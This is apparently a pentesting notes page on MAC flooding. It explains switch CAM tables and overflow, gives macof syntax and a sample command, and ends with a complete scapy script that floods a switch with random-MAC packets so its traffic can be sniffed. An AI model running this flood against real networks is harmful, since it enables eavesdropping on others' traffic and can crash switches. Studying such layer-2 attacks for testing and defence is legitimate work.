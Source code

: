 # MAC Flood

## CAM Table&#x20;

![](<../../.gitbook/assets/image (298) (1) (1) (1).png>)

• CAM Table stands for Content Addressable Memory

• The CAM Table stores information such as MAC addresses available on physical ports with their associated VLAN parameters

• CAM Tables have a fixed size

## Normal CAM Behavior

![](<../../.gitbook/assets/image (277) (1) (1).png>)

![](<../../.gitbook/assets/image (300) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (276) (1) (1) (1) (1) (1) (1).png>)

## CAM Overflow

• Theoretical attack until May 1999&#x20;

• macof tool since May 1999 (about 100 lines of perl)

• Based on CAM Table’s limited size

![](<../../.gitbook/assets/image (293) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (281) (1) (1) (1) (1).png>)

#### Dsniff (macof) can generate 480,000 MAC entries on a switch per minute 8000/s\*60.

Assuming a perfect hash function the CAM table will total out at 128,000 (16,000 x 8) 131,052 to be exact Since hash isn’t perfect it actually takes 70 seconds to fill the CAM table.

#### Once table is full, traffic without a CAM entry floods on the VLAN, but NOT existing traffic with an existing CAM entry

![](<../../.gitbook/assets/image (297) (1) (1) (1).png>)

Syntax:

```
macof [-i interface] [-s src] [-d dst] [-e tha] [-x sport] [-y dport] [-n times]

-i   interface Specify the interface to send on.
-s   src Specify source IP address.
-d   dst Specify destination IP address.
-e   Specify target hardware address.
-x   sport Specify TCP source port.
-y   dport Specify TCP destination port.
-n   times Specify the number of packets to send
```

#### Macof can flood a switch with random MAC addresses. This is called MAC flooding. This fills in the switch’s CAM table, thus new MAC addresses can not be saved, and the switch starts to send all packets to all ports, so it starts to act as a hub, and thus we can monitor all traffic passing through it.

## Targeted Flooding

Macof can flood a switch with random MAC addresses destinated to 192.168.1.1.

```
macof -i eth1 -n 10
```

While conducting a pentest, this tool comes in handy while sniffing. Some switches don’t allow to spoof arp packets. This tool can be used in such situations to check if the switch is overloaded. Some switches behave like hubs, transmitting all source packets to all destinations. Then sniffing would be very easy. Some switches tend to crash & reboot also. Such kind of layer 2 stress testing can be done with this handy tool

## MAC flooding with scapy

```python
#! /usr/bin/python

nbpkts = 8192
iface = "eth0"

import sys
from scapy.all import sendpfast, Ether, IP, RandIP, RandMAC, TCP

print("Initializing...")

# We first build all packets...
pkts = []
for i in xrange(0, nbpkts):
  macaddr = str(RandMAC())
  # Quick-and-dirty way to ensure that the I/G remains unset
  macaddr = macaddr[:1] + "0" + macaddr[2:]
  # This packet structure mimics a TCP SYN sent to a HTTP server.
  # A random dst mac should also work, setting one fixed can be useful
  # to easily filter-out flood-related packets when capturing traffic.
  # You can use IPs valid for your range, but be cautious that if any
  # host is made to send some RST for instance its MAC address will be
  # registered by the switches.
  pkts.append(Ether(src=macaddr, dst="ff:ff:ff:ff:ff:ff")/
              IP(src=str(RandIP()), dst=str(RandIP()))/
              TCP(dport=80, flags="S", options=[('Timestamp', (0, 0))]))

print("Launching attack, press Ctrl+C to stop...")

# ...and then we send them in loop.
while True:
  # Adapt pps (Packets Per Second) to your needs. Running a complex
  # GNS3 topology on a low-end machine will take all the CPU causing
  # packet loss, pps will then need to be high to replay lost packets.
  # Given enough CPU, packet loss can remain low and pps can be lowered
  # too.
  sendpfast(pkts, iface=iface, file_cache=True, pps=5000, loop=999)

```
